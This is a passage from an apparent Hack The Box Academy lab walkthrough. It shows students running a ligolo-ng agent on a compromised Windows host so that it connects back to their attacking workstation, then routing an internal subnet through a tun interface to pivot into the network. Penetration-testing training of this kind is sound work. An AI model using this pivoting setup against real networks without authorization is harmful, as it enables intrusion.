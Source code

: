 Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```powershell-session
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```

Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```shell-session
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```

